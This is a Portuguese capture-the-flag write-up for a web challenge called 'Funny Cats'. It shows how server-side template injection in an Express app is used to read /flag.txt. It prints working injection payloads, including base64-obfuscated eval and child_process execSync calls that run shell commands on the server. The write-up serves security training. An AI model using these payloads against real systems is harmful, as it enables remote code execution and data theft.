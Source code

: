 # **WEB**

**Autor**: Hakal  
**Desafio**: Funny Cats  
**Nível**: Médio  

---

## **1. Introdução**

Neste write-up, abordaremos uma exploração que se aproveita da vulnerabilidade de Server-Side Template Injection (SSTI) em um servidor Express. O objetivo desta exploração é localizar a flag escondida no arquivo `/flag.txt` no servidor alvo. A exploração será realizada através de injeções de template, que permitem a execução de código arbitrário no servidor.

---

## **2. Análise do Código Vulnerável**

O site exibe imagens de gatos e permite a inserção de um nome de gato através de uma URL, como no exemplo: `https://funny-cats.chapeudepalhahacker.club/gato?name=Alfredo`. A vulnerabilidade SSTI ocorre quando a entrada do usuário é processada sem a devida sanitização, permitindo a execução de código no servidor.

---

## **3. Exploração da SSTI**

O objetivo da exploração é injetar código malicioso que nos permita ler o conteúdo do arquivo `/flag.txt`.

### **Passo 1: Demonstração de Injeção de Template Básica**

Para verificar a vulnerabilidade SSTI, injetamos um código simples que realiza uma multiplicação:

```
https://funny-cats.chapeudepalhahacker.club/gato?name=<%= 7*7 %>
```

**Saída:**

![Resultado da Injeção Básica](1.png)

### **Passo 2: Identificação do Sistema Operacional**

Para identificar o sistema operacional do servidor, utilizamos a função `eval` para decodificar um buffer em base64 que executa o comando `os.platform()`:

```
https://funny-cats.chapeudepalhahacker.club/gato?name=<%= '- Sistema Operacional: ' %><%=eval(Buffer('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdvcycpLnBsYXRmb3JtKCk=', 'base64').toString())%><%= '' %>
```

**Saída:**

![Identificação do Sistema Operacional](2.png)

### **Passo 3: Leitura do Conteúdo de /flag.txt**

Para ler o conteúdo do arquivo `/flag.txt`, utilizamos a função `execSync` do módulo `child_process` para executar o comando `cat /flag.txt`:

```
https://funny-cats.chapeudepalhahacker.club/gato?name=<%= '- ' %><%= global.process.mainModule.require('child_process').execSync(Buffer('Y2F0IC9mbGFnLnR4dAo=', 'base64').toString()) %><%= '' %>
```

**Saída:**

![Leitura do Conteúdo de /flag.txt](3.png)

---

## **4. Conclusão**

Este desafio envolveu o processo de:

1. Identificação da vulnerabilidade de SSTI no servidor Express.
2. Injeção de código malicioso para identificar o sistema operacional do servidor.
3. Execução de comandos no servidor para ler o conteúdo do arquivo `/flag.txt` e obter a flag.

Com o conhecimento sobre a vulnerabilidade SSTI e a necessidade de URL encoding, foi possível realizar a exploração com sucesso e alcançar o objetivo final.

---

